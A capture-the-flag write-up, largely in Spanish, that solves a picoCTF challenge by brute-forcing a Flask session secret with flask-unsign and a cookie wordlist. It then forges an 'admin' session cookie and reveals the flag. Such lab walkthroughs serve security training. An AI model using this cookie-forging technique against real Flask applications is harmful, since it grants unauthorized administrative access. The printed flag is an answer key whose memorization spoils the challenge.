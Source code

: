 Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)

Hints:
1. How secure is a flask cookie?

## Solución 1:
Usando flask-unsign para encontrar la llave para cifrar otra cookie de itsdangerous Flask, metiendo como parametro wordlist todas las posibles cookies en un txt y la cookie que generó con 'snickerdoodle': 
```
┌──(kali㉿kali)-[~]
└─$ flask-unsign --unsign --wordlist cookies.txt --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-n40Q.eFoMuupg0zKvOzO9qrcI14hBJHw"
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-n8Aw.IMDN6jipuMBDE4GknFS9Oofd8oM


**Flag**: `picoCTF{pwn_4ll_th3_cook1E5_3646b931}`
```
